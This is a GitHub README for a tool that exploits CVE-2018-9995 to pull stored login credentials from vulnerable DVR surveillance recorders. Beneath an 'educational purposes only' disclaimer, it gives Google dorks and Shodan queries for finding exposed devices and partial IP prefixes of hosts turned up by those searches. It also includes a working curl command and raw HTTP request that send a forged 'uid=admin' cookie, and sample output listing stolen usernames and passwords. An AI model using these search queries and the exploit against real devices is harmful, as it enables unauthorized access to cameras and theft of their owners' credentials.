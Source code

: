 # DVR Credential Scanner

A simple educational tool to demonstrate the CVE-2018-9995 vulnerability in certain DVR (Digital Video Recorder) systems.

## ⚠️ Disclaimer

This tool is provided for **EDUCATIONAL PURPOSES ONLY**. The author and contributors are not responsible for any misuse or damage caused by this program. Using this tool against systems without explicit permission is illegal and may result in criminal charges.

## 📝 About the Vulnerability

- **CVE ID**: CVE-2018-9995
- **CVSS Base Score v3**: 7.3/10
- **CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **Vulnerability Type**: Information Disclosure

The vulnerability allows unauthorized users to extract login credentials from vulnerable DVR systems by sending a specially crafted HTTP request.

## 🎯 Affected Devices

The following DVR brands/models may be vulnerable:
- Novo
- CeNova
- QSee
- Pulnix
- XVR 5-in-1
- Securus
- Night OWL
- Various DVRs with "DVR Login", "HVR Login", or "MDVR Login" banners

## 🔍 Finding DVR Systems for Testing

For educational and research purposes, you can identify potential DVR systems using specialized search techniques. Here are some methods security researchers use:

### Google Dorks

Google dorks are specialized search queries that can help find specific web interfaces. Here are some examples for finding DVR login pages:

```
intitle:"DVR LOGIN"
intitle:"DVR LOGIN" -com
intitle:"DVR Login" -com
intitle:"XVR Login" -com
intitle:"MDVR Login" -com
intitle:"HVR Login" -com
```

Common IP addresses found in these searches include:
- 91.201.122.x
- 59.26.65.x
- 47.113.219.x
- And many others

### Other Search Options

You can also use specialized search engines that index IoT devices:
- Shodan.io with queries like `title:"DVR LOGIN"`
- Censys.io
- ZoomEye

### Important Note

**Always ensure you have explicit permission to test any system you identify.** Only test on systems you own or have written permission to test. Unauthorized access is illegal and unethical.

## 📋 Requirements

- Python 3.6 or higher
- Internet connection

## 🔧 Installation

1. Clone this repository:
   ```
   git clone https://github.com/its-anya/DVR_Credential_Scanner.git
   ```

2. Change to the project directory:
   ```
   cd DVR_Credential_Scanner
   ```

3. Install the required dependencies:
   ```
   pip install -r requirements.txt
   ```

## 🚀 Usage

### Interactive Mode (Recommended)

Simply run the script without any arguments, and it will prompt you for the target information:
```
python dvr_scanner.py
```

You will be prompted to enter:
- The target host (IP address or hostname)
- The target port (defaults to 80 if not specified)

After scanning one target, you'll be asked if you want to scan another.

### Command-line Mode

You can also use command-line arguments:
```
python dvr_scanner.py --host [TARGET_IP] --port [TARGET_PORT]
```

Example:
```
python dvr_scanner.py --host 192.168.1.100 --port 80
```

### Command-line Arguments

- `--host`: Target IP address or hostname (will prompt if not provided)
- `--port`: Target port number (default: 80)
- `--timeout`: Connection timeout in seconds (default: 10)

### Manual Exploitation

You can also manually validate the vulnerability using curl:

```bash
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

A successful exploitation will return a JSON response containing user credentials:

```json
{
  "result": 0,
  "list": [
    {
      "uid": "admin",
      "pwd": "Op1234567#",
      "role": 2,
      "enmac": 0,
      "mac": "00:00:00:00:00:00",
      "playback": 4294967295,
      "view": 4294967295,
      "rview": 4294967295,
      "ptz": 4294967295,
      "backup": 4294967295,
      "opt": 4294967295
    }
  ]
}
```

If you receive a different response or an error, the system may not be vulnerable to this exploit.

### Example Output

```
  ____  __     __  _____     _____                            
 |  _ \ \ \   / / |  __ \   / ____|                           
 | | | | \ \_/ /  | |__) | | (___   ___ __ _ _ __  _ __   ___ _ __ 
 | | | |  \   /   |  _  /   \___ \ / __/ _` | '_ \| '_ \ / _ \ '__|
 | |_| |   | |    | | \ \   ____) | (_| (_| | | | | | | |  __/ |   
 |____/    |_|    |_|  \_\ |_____/ \___\__,_|_| |_|_| |_|\\___|_|   
                                                        
 [*] CVE-2018-9995 | DVR Credential Scanner
 [*] Educational purposes only

 [*] Connecting to 192.168.1.100:80...

 [+] DVR URL:		192.168.1.100:80
 [+] Total Users:	1

╭──────────────────────┬──────────────────────┬──────────────────────╮
│             Username │             Password │              Role ID │
├──────────────────────┼──────────────────────┼──────────────────────┤
│                admin │           password12 │                    1 │
╰──────────────────────┴──────────────────────┴──────────────────────╯
```

## 🔍 Understanding the Vulnerability

The vulnerability exists because the DVR systems accept a cookie with `uid=admin` without proper authentication, and then return sensitive information including login credentials in a JSON response.

The exploit makes a simple HTTP request:
```
GET /device.rsp?opt=user&cmd=list HTTP/1.1
Host: [DVR_HOST]
Cookie: uid=admin
```

## 📜 License

This project is licensed under the MIT License. 
